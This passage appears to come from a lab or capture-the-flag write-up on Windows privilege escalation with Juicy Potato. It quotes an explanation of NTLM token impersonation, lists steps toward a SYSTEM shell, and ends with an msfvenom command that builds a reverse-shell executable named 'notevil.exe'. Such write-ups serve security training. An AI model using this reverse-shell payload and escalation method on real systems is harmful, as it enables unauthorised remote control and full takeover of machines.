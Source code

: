 
Rooted!

# Privilege Escalation v.1 - Juicy Potato

Running the whoami /priv command we can see that the current user has an ability to impersonate security tokens.

![Impersonate](/img/posts/cyberseclabs-weak/impersonate.png)

In order to understand this vulnerability we can take a quote from Foxglove Securit's article (lin in Resources):

```
The idea behind this vulnerability is simple to describe at a high level:

    1.Trick the “NT AUTHORITY\SYSTEM” account into authenticating via NTLM to a TCP endpoint we control.
    2.Man-in-the-middle this authentication attempt (NTLM relay) to locally negotiate a security token for the “NT AUTHORITY\SYSTEM” account. This is done through a series of Windows API calls.
    3.Impersonate the token we have just negotiated. This can only be done if the attackers current account has the privilege to impersonate security tokens. This is usually true of most service accounts and not true of most user-level accounts.
```

Now that we got that covered we can take the following steps to get a SYSTEM shell :

1. Create a reverse shell
2. Put reverse shell and JuicyPotato.exe to the vulnerable machine (check Resources for the .exe)
3. Find the correct CLSID
4. Set up a listener and execute the exploit

Firstly let's create a reverse shell with *msfvenom* :

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o notevil.exe
```
